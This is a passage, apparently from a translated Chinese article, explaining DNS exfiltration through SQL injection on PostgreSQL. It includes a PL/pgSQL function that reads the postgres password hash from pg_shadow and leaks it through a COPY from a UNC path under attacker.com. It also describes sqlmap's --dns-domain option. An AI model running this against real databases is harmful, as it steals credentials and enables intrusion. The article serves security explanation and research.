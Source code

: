 4.4 PostgreSQL
--------------

* * *

 4.4.1 COPY

PostgreSQL的声明COPY用于在文件系统的文件和表之间拷贝数据：

```
 COPY <table>(<column>,...) FROM '<path>'

```

例如，为了将C:\Windows\Temp\users.txt的文件内容拷贝到含有唯一列names的users表中 运行： 

```
COPY users(names) FROM 'C:\\Windows\\Temp\\users.txt'     

```

4.4.2例子 以下是使用PostgreSQL的声明COPY将系统管理员的密码通过DNS解析机制传输的例子：

```
 DROP TABLE IF EXISTS table_output;     

CREATE TABLE table_output(content text);

 CREATE OR REPLACE FUNCTION temp_function()     

RETURNS VOID AS $$

 DECLARE exec_cmd TEXT;     

DECLARE query_result TEXT;     

BEGIN     SELECT INTO query_result (SELECT passwd FROM pg_shadow WHERE usename='postgres');     

exec_cmd := E'COPY table_output(content)FROM E\'\\\\\\\\'||query_result||E'.attacker.com\\\\foobar.txt\'';

 EXECUTE exec_cmd;     END;     

$$ LANGUAGE plpgsql SECURITY DEFINER;

 SELECT temp_function();

```

这种预先计算的形式被使用，因为SQL的声明COPY不接受子查询。

同时，PostgreSQL的变量都必须被明确地声明并在子程序（函数或者程序）范围内使用。因此使用用户自定义的存储功能。

0x05 实施
=====

如前所述，我选择的工具SQL注入工具是SqlMap，主要是因为本文的作者也是它的开发者之一，并升级它使其支持DNS渗出。新的命令行选项--dns-domain已经被添加用于运行新的程序流程。有了它，用户可以打开DNS渗出的支持，并且通知SqlMap所有被引发DNS解析请求应指向给定域（例如--dns-domain=attacker.com）。
